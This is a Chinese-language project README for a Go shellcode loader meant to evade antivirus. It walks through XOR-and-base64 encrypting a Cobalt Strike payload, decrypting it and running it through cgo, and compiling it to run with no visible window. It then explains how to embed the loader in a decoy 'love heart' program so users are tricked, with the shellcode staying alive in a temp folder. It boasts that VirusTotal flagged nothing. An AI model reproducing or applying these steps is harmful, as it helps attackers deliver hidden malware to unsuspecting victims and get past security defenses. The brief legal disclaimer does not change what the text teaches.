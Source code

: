 #          基于Go语言的shellcode免杀加载器

### 本项目使用go的1.23版本，gcc为8.1.0版本。

**郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

### 1.项目中使用CS获取payload的c语言代码，获取代码中的十六进制内容，然后放到go中进行随机生成key进行xor异或加密然后进行base64加密。

### 2.在加载器代码中将key和加密代码获取然后使用base64解密后使用key进行xor解密为十六进制代码。

### 3.之后调用cgo来使用c语言进行命令的运行。

## 示例：

#### 1.获取payload c语言

![173712](./image/173712.png)

#### 2.获取十六进制数据和加密

将/* length: 893 bytes */
unsigned char buf[] = "  和最后的";删除。只保留十六机制代码

![174226](./image/174226.png)

将代码写为xoor.go的命令行参数

go run xoor.go \xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41

后面为完整的十六进制代码，运行得到

![174646](./image/174646.png)

保存key和加密的code。

#### 3.使用xooor.go解密代码并调用cgo进行加载。

将key和code复制到xooor.go的key1和payload1参数中，然后

go build -ldflags="-H windowsgui" xooor.go 进行exe编译并指定启动时在后台启动不生成命令行窗口。

#### 4.测试

![175902](./image/175902.png)



### 如果觉得就是一个exe而且点击后没有反应别人不会上当，那么可以将shellcode加载器嵌入到爱心代码中。

首先将xooor.go生成的隐藏命令行caiquan.exe放入到hello.go的相同目录，然后

```go
caiquanExePath := "caiquan.exe"
```

```go
tempCaiquanExe, err := os.CreateTemp("", "caiquan-*.exe")
```

中设置你的程序名称

最后 go build -o love.exe hello.go则可以生成木马在后台运行的爱心代码。

![181625](./image/181625.png)

![181005](./image/181005.png)

shellcode会在用户设置的临时文件夹中运行，结束爱心代码shellcode也不会结束。

## 免杀测试

打开(https://www.virustotal.com/gui/home/upload)

网站上传love.exe进行杀毒检测

![6fe27](./image/6fe27.png)

全部绕过。

虽然能绕过shellcode识别但是应用会被识别为未知应用，如果有能力可以尝试数字签名等认证方式。
